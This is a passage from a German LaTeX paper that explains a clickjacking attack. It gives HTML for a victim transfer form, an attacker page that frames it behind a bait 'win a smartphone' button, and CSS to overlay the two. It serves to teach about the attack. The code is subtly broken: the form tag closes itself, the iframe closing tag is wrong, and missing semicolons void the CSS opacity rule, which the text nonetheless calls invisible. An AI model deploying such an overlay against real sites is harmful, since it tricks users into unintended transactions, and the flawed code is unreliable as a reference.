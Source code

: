 \textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\

Bei diesem HTML-Code gibt es nur ein Formular mit einem Absenden-Button. Wenn man auf diesen Button drückt, wird die Aktion \texttt{''dotransfer''} ausgeführt, indem der Benutzer zur Anschauung weitergeleitet wird\cite{cjd13}.

\begin{LaTeXCode}[caption={Opferseite},captionpos=b, label=LaTeXCode:cj1][numbers=none]
<html>
	<head>
	<title>Opferseite</title>
	</head>
	<body>
	<form action="/dotransfer" method="post" />
		<input type="hidden" value="1000" name="amount" />
		<input type="hidden" value="[RND-ID]" name="csrftoken" />
		<input type="submit" value="submit" />
	</form>
	</body>
</html>
\end{LaTeXCode}

Durch unten geschriebene HTML-Code wird eine zweite Seite erstellt, welche die erste Seite einbindet\cite{cjd13}:

\begin{LaTeXCode}[caption={Hackseite},captionpos=b, label=LaTeXCode:cj2][numbers=none]
<html>
	<head>
	<title>Hack</title>
	</head>
	<body>
		<button id="clickme"/>Gewinne ein Smartphone</button>
		<iframe src="http://opferseite.de/inittransfer.html" id="frame"/><iframe>
	</body>
</html>
\end{LaTeXCode}

Es wird jetzt noch ein wenig CSS gebraucht, um das Iframe halbdurchsichtig zu machen, und den \texttt{clickme} Button über den Absenden-Button des Iframes zu legen\cite{cjd13}.

\begin{LaTeXCode}[caption={CSS},captionpos=b, label=LaTeXCode:cj3][numbers=none]
#clickme {
	position:absolute;
	top:0px;
	left:0px;
	color: #ff0000;
}

#frame {
	width: 100%
	height: 100%
	opacity: 0.5;
}
\end{LaTeXCode}

Im Endeffekt sieht der Benutzer nur noch den Button mit der Aufschrift "`Gewinn ein Smartphone"'. Darüber liegt jedoch das unsichtbare Iframe. Möchte der Benutzer den Gewinn ergattern betätigt er nicht den Gewinnbutton, sondern den Absenden-Button im Iframe, da dieser über dem Gewinn-Button liegt. Damit wird die Aktion im Hintergrund ausgeführt, und der Hacker hat seiner Ziel erreicht\cite{cjd13}.

